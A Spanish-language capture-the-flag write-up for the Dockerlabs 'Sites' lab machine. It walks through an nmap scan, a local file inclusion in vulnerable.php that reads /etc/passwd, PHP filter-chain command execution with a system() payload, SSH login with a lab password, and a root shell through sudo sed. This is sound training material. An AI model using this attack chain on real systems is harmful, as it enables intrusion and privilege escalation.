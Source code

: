 Hoy haremos la maquina Sites de [Dockerlabs](https://dockerlabs.es)

![autor](./imagenes/autor.png)

Autor: [ElPingüinoDeMario](https://www.youtube.com/@ElPinguinoDeMario)

Dificultad: Medio

Vulnerabilidad: LFI(Local File Inclusion)

Herramientas a utilizar: Nmap, Hydra

​						Opcional: Gobuster

Scripts necesarios: [Php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)

# INTRUSIÓN 

Primero comenzamos haciendo un escaneo de nmap

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2
```

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 19:29 -03
Initiating ARP Ping Scan at 19:29
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 19:29, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 19:29
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 19:29, 1.69s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2024-08-05 19:29:42 -03 for 2s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.91 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```

No se encuentra nada interesante así que continuaremos entrando desde el navegador para ver que encontramos.

#### PUERTO 80:

![puerto80](./imagenes/puerto80.png)

Luego de estar leyendo la página veo que trata como de un "foro" el cual explica un poco de la vulnerabilidad LFI. Revisé el código fuente y no encontré nada pero por probar antes de usar feroxbuster/gobuster se me ocurrió entrar a un archivo que nombraba en la "publicación", el cual se llama "vulnerable.php". Resulta que si es un archivo y ya no nos hace falta usar feroxbuster/gobuster ; nos dice lo siguiente:

![vulnerablePHP](./imagenes/vulnerablePHP.png)

Nos dice que le demos un "page" o "username", viendo que la extensión del archivo es '.php' podemos probar poner '?page=' o '?username=' e introducir algo, si en "username" ponemos cualquier cosa nos da la bienvenida pero en "page" se encuentra lo interesante ya que podremos hacer un LFI, y leer archivos del sistema. Primero probé poner "../../../../../../../../../etc/passwd" como algo típico pero quedaba en blanco, así que probé con "/etc/passwd" y ya me mostró el archivo, por lo que confirmamos que trata de un LFI.

Intento conseguir el "id_rsa" de root o de alguno de los usuarios por probar ya que antes vimos que el puerto 22 de ssh estaba abierto, pero no funciona; así que se me ocurre utilizar los [wrapper](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md) de php. Al probarlos vemos que funcionan por lo que significa que podemos ejecutar comandos ayudándonos con el script [Php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator) simplemente poniendo 

```bash
python3 php_filter_chain_generator.py --chain "<?php system('comando que queramos'); ?>"
```

Estuve un rato probando en subir un archivo y enviarme una reverse shell pero finalmente la solución fue mucho mas simple ya que se encontraba un archivo llamado "archivitotraviesito" el cual tenia lo siguiente:
![archivitotraviesito](./imagenes/archivitotraviesito.png)

Por lo que ya tenemos la contraseña del ssh(el mensaje no nos dice el usuario pero como nosotros vimos el "/etc/passwd" y sabemos que hay uno llamado chocolate, pero para confirmar podríamos usar hydra o medusa dependiendo de los gustos). Nos conectamos por ssh con usuario "chocolate" y contraseña "lapasswordmasmolonadelacity" y listo, estamos dentro.

# ESCALADA DE PRIVILEGIOS

Ya estando dentro podemos ejecutar "sudo -l" para ver si tenemos suerte y podemos ejecutar algun binario como root. Por suerte encontramos lo siguiente:

```bash
chocolate@2e528d8225be:~$ sudo -l
Matching Defaults entries for chocolate on 2e528d8225be:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User chocolate may run the following commands on 2e528d8225be:
    (ALL) NOPASSWD: /usr/bin/sed
chocolate@2e528d8225be:~$ 

```

luego de buscar en [GTFOBins](https://gtfobins.github.io/) vemos que podemos realizar una escalada mediante ese binario usando 

```bash
sudo sed -n '1e exec sh 1>&0' /etc/hosts
```

ejecutamos

```bash
bash
```

y listo. SOMOS ROOT

![root](./imagenes/root.png)
